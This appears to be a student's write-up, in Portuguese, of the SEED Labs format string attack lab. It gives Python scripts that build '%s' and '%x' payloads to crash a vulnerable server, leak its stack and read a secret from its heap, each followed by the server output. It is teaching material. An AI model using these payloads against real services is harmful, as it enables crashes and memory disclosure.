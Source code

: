 # SEED Labs - Format String Attack Lab

## Task 1: Crashing the Program

- build_string.py
```python
#!/usr/bin/python3
import sys

N = 1500
content = ("%s"*N).encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Uma vez que, a função `printf` é chamada (na `myprintf`) sem nenhum argumento opcional, caso o input (string) seja vários `format specifiers`, o seu pointer `va_list` irá avançar para endereços além da sua stack frame. O payload, guardado em `build_string.py`, foi preenchido com vários `%s` como se pode ver acima.
Para cada format specifier `%s` a função `printf` irá tratar o valor obtido (para onde va_list aponta) como um endereço e tenta imprimir valor desse mesmo endereço. O programa irá terminar indevidamente quando a função `printf` tentar imprimir o valor de um endereço inválido (null pointers, endereços que apontam para memória protegida ou endereços virtuais que não estão mapeados na memória física).

- Printout do container:
```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd740
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd668
server-10.9.0.5 | The target variable's value (before): 0x11223344
```

Não é imprimida nenhuma mensagem de retorno, pelo que presupomos que o programa terminou sem retornar devidamente.

## Task 2: Printing Out the Server Program’s Memory

### Task 2.A: Stack Data

Foram necessários **64** (NUM_FORMAT_SPECIFIERS) `format specifiers %x` para `0xaaaaaaaa` ser impresso. `0xaaaaaaaa` (4 bytes) foi colocado no início do payload e o valor, **64**, foi obtido por tentativa e erro. 

- build_string.py
```python
#!/usr/bin/python3
import sys

NUM_FORMAT_SPECIFIERS = 64

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0xaaaaaaaa
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%x\n"*NUM_FORMAT_SPECIFIERS

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

- Printout do container:
```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd750
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd678
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | ����11223344
server-10.9.0.5 | 1000
server-10.9.0.5 | 8049db5
(60 linhas ocultas)
server-10.9.0.5 | aaaaaaaa
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

### Task 2.B: Heap Data

- build_string.py
```python
#!/usr/bin/python3
import sys

NUM_FORMAT_SPECIFIERS = 63

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x80b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%x"*NUM_FORMAT_SPECIFIERS + "\n%s"

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

- Printout do container:
```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd750
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd678
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 |@
                 1122334410008049db580e532080e61c0ffffd750ffffd67880e62d480e5000ffffd7188049f7effffd7500648049f4780e53205dc5dcffffd750ffffd75080e97200000000000000000000000000dc0af00080e500080e5000ffffdd388049effffffd7505dc5dc80e5320000ffffde040005dc
server-10.9.0.5 | A secret message
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

# CTF

